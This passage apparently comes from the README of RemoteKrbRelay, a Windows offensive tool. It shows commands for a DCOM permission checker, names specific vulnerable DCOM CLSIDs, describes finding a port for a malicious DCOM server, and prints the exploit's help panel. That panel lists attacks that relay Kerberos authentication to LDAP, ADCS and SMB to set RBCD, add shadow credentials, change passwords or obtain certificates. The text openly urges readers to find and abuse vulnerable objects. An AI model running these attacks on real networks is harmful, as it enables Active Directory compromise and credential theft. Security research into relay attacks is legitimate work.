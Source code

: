 Example:
```shell
.\Checkerv2.0.exe -outfile win10 -outformat xlsx
```
And u will receive such output:
![изображение](https://github.com/CICADA8-Research/RemoteKrbRelay/assets/92790655/4f2f22c7-dd0a-4eef-a630-4cce0f9c55df)

The columns will contain the DCOM object CLSIDs, names, and LaunchPermission and AccessPermission. 
![изображение](https://github.com/CICADA8-Research/RemoteKrbRelay/assets/92790655/4d6d0876-f3ae-453e-9c26-e618f61bc71d)

Try searching for sppui (CLSID `{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}`, APPID `{0868DC9B-D9A2-4f64-9362-133CEA201299}`) and CertSrv Request (CLSID `{d99e6e74-fc88-11d0-b498-00a0c90312f3}`) objects and understand why they are vulnerable.

Don't use Checker, use only Checkerv2.0 pls :3 

## FindAvailablePort

A small tool to discover a port on which to raise a malicious DCOM server. See details [here](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html) (Remote -> Local Potato).

![изображение](https://github.com/CICADA8-Research/RemoteKrbRelay/assets/92790655/c1edd59d-3a07-42ee-bc6e-6c724d7c10ff)

Practice using the concept of a local port. Rewrite RemotePotato0 to a local port. Trust me, this is useful.

## Exploit
I added quite a bit of different functionality to the exploit. Note that it provides enough functionality to abuse DCOM objects. I've also listed a few CLSIDs in Help for abuse. These CLSIDs were publicly known, there just wasn't a POC to abuse them. There are quite a few vulnerable DCOM objects, work with the checker and find them all!

```shell
PS A:\ssd\Share\RemoteKrbRelay\Exploit\RemoteKrbRelay\bin\x64\Debug> .\RemoteKrbRelay.exe -h

                            /\_/\____,
                  ,___/\_/\ \  ~     /
                  \     ~  \ )   XXX
                    XXX     /    /\_/\___,
                       \o-o/-o-o/   ~    /
                        ) /     \    XXX
                       _|    / \ \_/
                    ,-/   _  \_/   \
                   / (   /____,__|  )
                  (  |_ (    )  \) _|
                 _/ _)   \   \__/   (_
                (,-(,(,(,/      \,),),)

                CICADA8 Research Team
                From Michael Zhmaylo (MzHmO)

[HELP PANEL]
        RemoteKrbRelay.exe
        Relaying Remote Kerberos Auth by easy way
        Usage: RemoteKrbRelay.exe [ATTACKS] [REQUIRED OPTIONS] [OPTIONAL PARAMS] [ATTACK OPTIONS] [SWITCHES]

[ATTACKS] (one required!)
        -rbcd : relay to LDAP and setup RBCD
        -adcs : relay to HTTP Web Enrollment and get certificate
        -smb : relay to SMB
        -shadowcred : relay to LDAP and setup Shadow Credentials
        -chp : relay to LDAP and change user password
```